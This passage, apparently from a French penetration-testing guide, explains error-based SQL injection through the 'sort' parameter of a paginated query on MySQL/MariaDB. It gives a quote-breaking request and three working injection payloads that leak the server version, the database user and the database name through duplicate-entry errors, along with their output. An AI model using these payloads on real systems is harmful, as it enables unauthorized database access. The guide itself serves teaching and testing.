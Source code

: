 ### Error-based

Une exploitation de type error-based nécessite que le serveur renvoie des messages d'erreur techniques détaillés :&#x20;

```http
GET /users?search=&sort=lastname'&direction=ASC&page=1&maxPerPage=3 HTTP/1.1
```

```http
HTTP/1.1 200 OK

Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' ASC LIMIT 3 OFFSET 0' at line 1
```

{% hint style="warning" %}
Si les messages d'erreur sont masqués ou trop génériques, il ne sera pas possible d'exploiter cette technique.
{% endhint %}

#### &#x20;MySQL

_Exploitation du paramètre "sort"_

Récupération de la version de MySQL :&#x20;

<pre class="language-sql"><code class="lang-sql"><strong>lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
</strong></code></pre>

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-0+deb12u1-log~:1' for key 'group_key'
```

Récupération de l'utilisateur MySQL :&#x20;

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(USER() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~sql_injection_in_pagination_clauses@localhost~:1' for key 'group_key'
```

Récupération du nom de la base de données :&#x20;

```sql
lastname OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(DATABASE() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

```sql
SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~sql_injection_in_pagination_clauses_database~:1' for key 'group_key'
```
